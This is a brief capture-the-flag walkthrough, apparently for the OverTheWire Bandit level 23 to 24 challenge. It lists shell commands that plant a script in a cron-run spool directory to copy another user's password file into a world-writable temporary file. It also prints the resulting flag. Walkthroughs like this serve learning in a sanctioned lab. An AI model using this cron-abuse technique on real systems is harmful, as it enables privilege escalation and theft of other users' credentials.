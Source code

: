 1. connect to Bandit Labs
    * run `bandit-23-conn.sh`
2. run the following    
```bash
#bandit23@bandit:~$ 
ls -al /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
ls -al /var/spool | grep bandit

guid=$(date +%s)
tdir=/tmp/$guid && mkdir $tdir && cd $tdir
sh_name=$guid.sh

printf "xz/bin/bash\n" | tr 'xz' '#!' > $tdir/get_bandit24_pass.sh
printf "cat /etc/bandit_pass/bandit24 > ${tdir}/bandit24_pass\n" >> $tdir/get_bandit24_pass.sh
touch $tdir/bandit24_pass

chmod 777 $tdir/bandit24_pass
chmod 777 $tdir/get_bandit24_pass.sh
cp $tdir/get_bandit24_pass.sh /var/spool/bandit24/$sh_name
```

3. copy the flag/key `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

* Must create file "$tdir/bandit24_pass", since the /tmp dir that was made isnt world writable.